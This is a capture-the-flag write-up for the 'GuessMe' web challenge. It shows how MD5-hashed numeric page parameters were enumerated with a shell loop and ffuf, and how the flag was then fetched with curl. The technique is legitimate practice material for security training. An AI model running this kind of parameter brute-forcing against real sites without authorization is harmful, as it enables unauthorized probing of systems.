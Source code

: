 # GuessMe

## FR

L'admin a caché son flag, retrouvez le !

## EN

The admin hides the flag, find it!

https://guessme.flag4all.sh

Auteur : K_lfa (BZHack / ESDAcademy)


https://guessme.flag4all.sh

## Solve

we are redirected to:
https://guessme.flag4all.sh/index.php?page=cfcd208495d565ef66e7dff9f98764da
with the text `NOPE, NOTHING HERE`
MD5 of empty string => we need to md5 the page to access ?

trying with burp, got same answer with
```
c20ad4d76fe97759aa27a0c99bff6710
6512bd43d9caa6e02c990b0a82652dca
d3d9446802a44259755d38e6d163e820
c4ca4238a0b923820dcc509a6f75849b
c81e728d9d4c2f636f067f89cc14862c
eccbc87e4b5ce2fe28308fd9f2a7baf3
c51ce410c124a10e0db5e4b97fc2af39
a87ff679a2f3e71d9181a67b7542122c
aab3238922bcc25a6f606eb525ffdc56
9bf31c7ff062936a96d3c8bd1f8f2ff3
c74d97b01eae257e44aa9d5bade97baf
6f4922f45568161a8cdf4ad2299f6d23
98f13708210194c475687be6106a3b84
3c59dc048e8850243be8079a5c74d079
e4da3b7fbbce2345d7772b0674a318d5
b6d767d2f8ed5d21a44b0e5886680cb9
1679091c5a880faf6fb5e6087eb1b2dc
1f0e3dad99908345f7439f8ffabdffc4
1ff1de774005f8da13f42943881c655f
37693cfc748049e45d87b8c7d8b9aacd
70efdf2ec9b086079795c442636b55fb
02e74f10e0327ad868d138f2b4fdd6f0
4e732ced3463d06de0ca9a15b6153677
```
=> only hash of number => we might want to only iter on the MD5 of numbers

```
└─$ for i in $(seq 1 1000); do echo -n $i | md5sum | cut -d' ' -f1; done > number_to_md5.txt
└─$ ffuf -w number_to_md5.txt -u 'https://guessme.flag4all.sh/index.php?page=FUZZ' -fs 0 -fw 3

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://guessme.flag4all.sh/index.php?page=FUZZ
 :: Wordlist         : FUZZ: /home/kali/number_to_md5.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
 :: Filter           : Response words: 3
________________________________________________

0bb4aec1710521c12ee76289d9440817 [Status: 200, Size: 32, Words: 1, Lines: 2, Duration: 4ms]
:: Progress: [1000/1000] :: Job [1/1] :: 46 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
└─$ curl 'https://guessme.flag4all.sh/index.php?page=0bb4aec1710521c12ee76289d9440817'                                                                         
FLAG{I_Kn0w_M4ke_GET_1n_4_Lo0P}
```
